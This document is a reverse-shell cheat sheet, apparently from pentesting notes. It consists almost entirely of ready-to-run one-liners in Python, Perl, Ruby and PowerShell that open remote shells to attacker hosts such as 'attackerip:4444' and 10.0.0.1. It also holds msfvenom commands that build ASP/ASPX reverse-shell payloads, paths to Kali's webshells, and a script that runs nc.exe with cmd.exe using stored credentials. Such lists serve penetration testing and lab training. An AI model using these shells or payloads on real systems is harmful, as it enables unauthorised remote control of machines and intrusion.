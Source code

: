 ## python udp reverseshell
    import os; os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u <LAB IP> <PORT> >/tmp/f &").read() 
    nc -nvlp <port> -u


# Perl
    perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

    perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

# Perl windows
    perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'


# Ruby
    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

# Ruby windows
    ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'



# Kali webshell
    /usr/share/webshells/php/php-reverse-shell.php
    /usr/share/webshells/cfm/cfexec.cfm
    /usr/share/webshells/perl/perl-reverse-shell.pl

# ASP reverse shell : nc
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.168.168 LPORT=443 -f asp -o shell.asp - also works for exporting .aspx

    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.32 LPORT=4445 --platform windows -a x86 -e generic/none -f aspx -o reverse_shell.txt


# Windows reverse shell
    echo $secpasswd = ConvertTo-SecureString "password" -AsPlainText -Force > wget-runas.ps1
    echo $mycreds = New-Object System.Management.Automation.PSCredential ("username", $secpasswd) >> wget-runas.ps1
    echo $computer = "hostname" >> wget-runas.ps1
    echo [System.Diagnostics.Process]::Start("C:\tmp\nc.exe","192.168.168.168 443 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer) >> wget-runas.ps1
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget-runas.ps1
